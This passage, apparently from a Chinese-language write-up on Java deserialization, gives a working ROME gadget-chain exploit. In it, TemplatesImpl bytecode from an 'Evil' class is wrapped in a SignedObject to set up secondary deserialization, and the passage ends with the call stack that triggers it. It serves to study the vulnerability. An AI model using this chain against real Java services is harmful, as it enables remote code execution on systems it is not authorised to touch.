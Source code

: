 ```java
        field.set(obj,value);
    }

    public static void main(String[] args) throws Exception{
        byte[] bytes=ClassPool.getDefault().get(Evil.class.getName()).toBytecode();

        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{bytes});
        setFieldValue(obj, "_name", "a");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        HashMap hashMap1 = getpayload(Templates.class, obj);

        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject(hashMap1, kp.getPrivate(), Signature.getInstance("DSA"));

        HashMap hashMap2 = getpayload(SignedObject.class, signedObject);

        //序列化
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(hashMap2);
        oos.close();
        //System.out.println(new String(Base64.getEncoder().encode(baos.toByteArray())));

        //反序列化
        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
        ois.close();
    }

    public static HashMap getpayload(Class clazz, Object obj) throws Exception {
        ObjectBean objectBean = new ObjectBean(ObjectBean.class, new ObjectBean(String.class, "rand"));
        HashMap hashMap = new HashMap();
        hashMap.put(objectBean, "rand");
        ObjectBean expObjectBean = new ObjectBean(clazz, obj);
        setFieldValue(objectBean, "_equalsBean", new EqualsBean(ObjectBean.class, expObjectBean));
        return hashMap;
    }
}
```
![](https://img-blog.csdnimg.cn/47a2ab2d0408472cb579674d9dfc86e3.png)

可以看到调用栈为：
```
getObject:180, SignedObject (java.security)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
toString:137, ToStringBean (com.sun.syndication.feed.impl)
toString:116, ToStringBean (com.sun.syndication.feed.impl)
toString:120, ObjectBean (com.sun.syndication.feed.impl)
beanHashCode:193, EqualsBean (com.sun.syndication.feed.impl)
hashCode:110, ObjectBean (com.sun.syndication.feed.impl)
hash:339, HashMap (java.util)
readObject:1413, HashMap (java.util)
```